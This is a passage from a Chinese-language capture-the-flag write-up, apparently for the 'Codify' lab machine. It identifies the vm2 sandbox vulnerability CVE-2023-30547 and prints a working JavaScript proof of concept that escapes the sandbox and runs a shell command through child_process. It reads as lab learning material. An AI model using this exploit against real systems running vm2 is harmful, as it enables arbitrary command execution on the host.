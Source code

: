 ![img](img/image_20240328-102824.png)

由此看来，`80` 端口和 `3000` 端口的返回服务是一致的

### 沙盒逃逸

在 `http://codify.htb/limitations` 中，可以得到沙盒中对于函数调用的一些限制

查阅相关资料，可以定位到这个漏洞 [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m)

使用以下 poc 进行攻击

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`
console.log(vm.run(code));
```
